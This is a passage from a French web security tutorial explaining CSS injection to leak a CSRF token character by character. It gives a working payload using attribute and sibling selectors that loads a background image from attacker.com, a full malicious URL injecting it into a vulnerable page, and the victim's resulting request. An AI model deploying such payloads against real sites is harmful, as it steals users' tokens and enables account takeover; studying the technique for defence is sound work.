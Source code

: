 Cela est en fait possible en utilisant les combinateurs `~` et `*` à la suite du sélecteur CSS :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=csrf-token][value^=a]~* {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

{% hint style="info" %}
Le combinateur `~` ([general sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#general\_sibling\_combinator)) sélectionne les frères d'un élément, même dans le cas où ils ne sont pas adjacents, mais doivent avoir le même parent. Il est possible également d'utiliser le combinateur `+` ([adjacent sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#adjacent\_sibling\_combinator)) mais son utilisation est alors plus restreinte.
{% endhint %}

{% hint style="info" %}
Le sélecteur`*` ([universal selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Universal\_selectors)) correspond à un élément de n'importe quel type.
{% endhint %}

Le lien malicieux devenant alors :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-hidden.php?color=black;}input[name=csrf-token][value^=a]~*{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Et la requête effectuée par le navigateur de la victime sera :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>
